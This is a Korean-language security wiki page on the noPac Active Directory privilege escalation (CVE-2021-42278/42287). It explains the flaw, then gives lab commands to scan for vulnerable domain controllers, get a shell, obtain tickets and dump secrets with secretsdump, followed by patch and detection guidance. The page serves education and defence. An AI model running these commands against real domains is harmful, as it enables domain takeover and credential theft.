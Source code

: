 # noPac

> noPac (CVE-2021-42278 + CVE-2021-42287) 과 관련된 자세한 기술적인 정보는 블로그 글을 참고해주시기 바랍니다 - [https://blog.sunggwanchoi.com/cve-2021-42278gwa-42287-pateu-2/](https://blog.sunggwanchoi.com/cve-2021-42278gwa-42287-pateu-2/) .

### 개념&#x20;

CVE-2021-42278, CVE-2021-42287 (aka. noPac)은 2021년 11월에 발견된 액티브 디렉토리 권한 상승 취약점이다. 액티브 디렉토리 내 일반 유저에서 도메인 관리자로 권한 상승이 가능해지며, 도메인을 장악할 수 있게된다. 취약점 발표는 2021년 11월달에 이뤄졌지만, 12월 11일 noPac 이라는 개념증명 공격 툴이 공개되어 다시 주목받고 있다. 마이크로소프트 사에서는 이 두 취약점에 모두 CVSS 7.5 - 높음 위험도를 부여했다. 해당 취약점들은 2021년 11월 9일에 발표된 KB5008380, KB5008602, 혹은 KB5008102 보안 패치를 통해 해결할 수 있다.

### CVE-2021-42278 - sAMAccountName Spoofing

액티브 디렉토리 내 머신 계정은 일반적으로 sAMAccountName 뒤에 “$” 이 붙는다. 예를 들어 도메인 컨트롤러 DC01.choi.local 의 sAMAccountName은 DC01$ 이다. CVE-2021-42278은 머신 계정의 sAMAccountName를 수정할 때 검증이 제대로 이뤄지지 않아 “$”를 뺀 sAMAccountName을 만들어낼 수 있는 취약점이다. 예를 들어 DC01$에서 “$”가 빠진 DC01으로 지정할 수 있다.

42278만 놓고보면 심각한 취약점이 아니지만 이는 42287 취약점 공격에 필수적인 요소로 사용된다.

### CVE-2021-42287

액티브 디렉토리에서 머신 계정은 S4U2self 커버로스 요청을 통해 <특정 유저>가 자신(머신)의 특정 서비스에 접근가능한 서비스 티켓(ST)을 KDC로부터 받을 수 있다. 42287 취약점은 S4U2self를 요청한 머신의 sAMAccountName 이 액티브 디렉토리에 존재하지 않을시, KDC가 스스로 머신의 sAMAccountName 에 `$` 을 붙여 ST를 발급해주는 취약점이다.

이 취약점을 악용할 시 공격자는 도메인 컨트롤러와 sAMAccountName은 같지만 "$" 이 없는 머신 계정을 만든 뒤, TGT를 발급받고, 머신 계정의 sAMAccountName 을 다른 것으로 바꾼 뒤, <도메인 관리자>가 자신의 특정 서비스에 접근 가능한 S4U2self 요청을 KDC에게 보낸다. sAMAccountName이 바뀌었기 때문에 KDC는 액티브 디렉토리 내에서 이를 찾지 못하고, 결국 스스로 `$`을 붙여 (`DC01$`) <도메인 관리자>가 도메인 컨트롤러의 특정 서비스에 접근 가능한 서비스 티켓을 공격자에게 발급한다.

### 전제 조건&#x20;

1. 도메인 내 MAQ (MachineAccountQuota)의 값이 0이상 (기본값 10)으로 설정 되었을 시
2. noPac에 취약한 패치되지 않은 도메인 컨트롤러가 존재&#x20;
3. 도메인 유저 계정 존재&#x20;

### 실습&#x20;

실습에서는 noPac의 [파이썬 버전](https://github.com/Ridter/noPac)을 사용한다.&#x20;

#### 정보 수집&#x20;

CrackMapExec 이나 noPac 을 이용해 noPac에 취약한 도메인 컨트롤러가 있나 찾아본다.&#x20;

```
# CrackMapExec 
$ cme smb <DC-IP> -u <user> -p <pass> -d <domain> -M noPac 

$ cme smb 192.168.40.150 -u 'low' -p 'Password123!' -d choi.local -M nopac 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\low:Password123! 
NOPAC       192.168.40.150  445    DC01             TGT with PAC size 1373
NOPAC       192.168.40.150  445    DC01             TGT without PAC size 680
NOPAC       192.168.40.150  445    DC01             
NOPAC       192.168.40.150  445    DC01             VULNEABLE
NOPAC       192.168.40.150  445    DC01             Next step: https://github.com/Ridter/noPac

# noPac 
$ python3 scanner.py <domain>/<user>:<pass> -dc-ip <dc-ip> 
$ python3 scanner.py choi.local/low:'Password123!' -dc-ip 192.168.40.150
```

noPac 과 관련된 `unsupported hash type MD4` 에러가 있다면 `pip3 install pycryptodome` 을 설치한다.&#x20;

#### 공격&#x20;

```
# noPac으로 쉘 얻기  
$ python3 noPac.py <domain>/<user>:<pass> -dc-ip <dc-ip> -shell 

# nopac으로 커버로스 티켓 받아오기  
python3 noPac.py <domain>/<user>:<pass> -dc-ip <dc-ip>
export KRB5CCNAME=<full-path-.ccache-file>

# 티켓을 이용해 다양한 공격 
python3 secretsdumps.py <domain>/<user>@<target> -k -no-pass 
```

### 대응 방안&#x20;

* 다음의 보안 패치를 적용한다. 도메인 컨트롤러를 최신 버전으로 패치하면 자동으로 설치되니 굳이 찾아서 따로 설치를 할 필요는 없다.&#x20;
* **KB5008102 패치 -** 머신 계정의 sAMAccountName에는 무조건적으로 “$”이 들어가게끔 검증하도록 바뀌었다.
* **KB5008380 패치 -** S4U2self 요청시, TGT안에 PAC (Privileged Account Certificate) 이 들어가게끔 바뀌었다. TGT안의 PAC과 새롭게 발급하는 TGS안의 PAC이 일치하지 않으면 TGS를 사용해 서비스를 이용할 수 없도록 바뀌었다.

### 탐지 방안&#x20;

1. **sAMAccountName 검색**&#x20;

정말 특별한 경우가 아니라면 도메인 내 “$”이 없는 머신 계정은 존재해서는 안된다. 다음의 파워쉘 명령어를 이용해 “$”이 없는 머신 계정을 찾아본다. 결과가 나온다면 계정을 분석한 뒤 침해대응을 준비한다.

```
<# (https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/) #>
Get-ADComputer -Filter { samAccountName -notlike "*$" }
```

**2. 윈도우 이벤트 로그 - 머신 계정 생성 확인**&#x20;

다음의 윈도우 이벤트 로그를 확인한다.&#x20;

* 4741 - 머신 계정 생성
* 4742 - 머신 계정 수정 (sAMAccountName 이 “$” 이 없도록 수정되었는지 확인)
* 4743 - 머신 계정 삭제

만약 4741, 4742, 4743이 짧은 시간 (5\~10분) 동안 일어났고, 4742에서 “$”이 없는 sAMAccountName 수정이 확인되었다면, 공격 받았을 확률이 매우 높다.

**3. 11월 9일 패치에서 추가된 이벤트 로그 확인**

11월 9일 KB5008380 패치에서 마이크로소프트 사는 다음과 같은 이벤트 로그들을 추가했다. 이를 모니터링 룰에 적용한다.

* 35 - PAC without Attributes
* 36 - Ticket without a PAC
* 37 - Ticket without Requestor
* 38 - Requestor Mismatch (중요)

### 레퍼런스&#x20;

{% embed url="https://github.com/Ridter/noPac" %}
